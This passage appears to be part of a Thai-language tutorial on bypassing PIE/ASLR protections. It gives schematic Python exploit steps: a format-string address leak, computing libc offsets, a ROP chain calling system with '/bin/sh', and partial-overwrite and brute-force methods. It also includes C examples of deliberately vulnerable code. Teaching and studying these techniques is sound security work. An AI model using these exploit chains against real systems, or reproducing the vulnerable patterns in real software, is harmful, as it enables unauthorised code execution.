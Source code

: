 ```bash
Executable: 0x0000557823abc000
libc:       0x00007f9bc4567000
stack:      0x00007ffd12345678
```

### การโจมตีต้อง Leak Address ก่อน
```python
# Step 1: Leak PIE base
payload1 = b"%7$p"  # Leak stack -> calculate PIE base
leaked = execute(payload1)
pie_base = leaked - known_offset

# Step 2: Leak libc base
payload2 = construct_leak(pie_base)
libc_leaked = execute(payload2)
libc_base = libc_leaked - libc_offset

# Step 3: Build ROP chain with leaked addresses
payload3 = b"A" * 72
payload3 += p64(libc_base + system_offset)
payload3 += p64(libc_base + binsh_offset)
```

### Bypass Techniques (ยากมาก)

#### 1. Information Leak (วิธีหลัก)
```c
// Format string vulnerability
printf(user_input);  // Leak stack/addresses

// Buffer over-read
char buf[10];
read(0, buf, 20);  // Leak adjacent memory

// Use-after-free
// Leak heap addresses
```

#### 2. Partial Overwrite
```python
# เขียนทับแค่ 2 bytes ล่าง (12 bits entropy)
# Probability: 1/4096
payload = b"A" * 72 + b"\x00\x12"  # Overwrite 2 bytes only
```

#### 3. Brute Force (บน 32-bit only)
```python
# 32-bit PIE: ~16 bits entropy
# Can brute force: 2^16 = 65,536 attempts
# Success in ~30 seconds with remote target
```
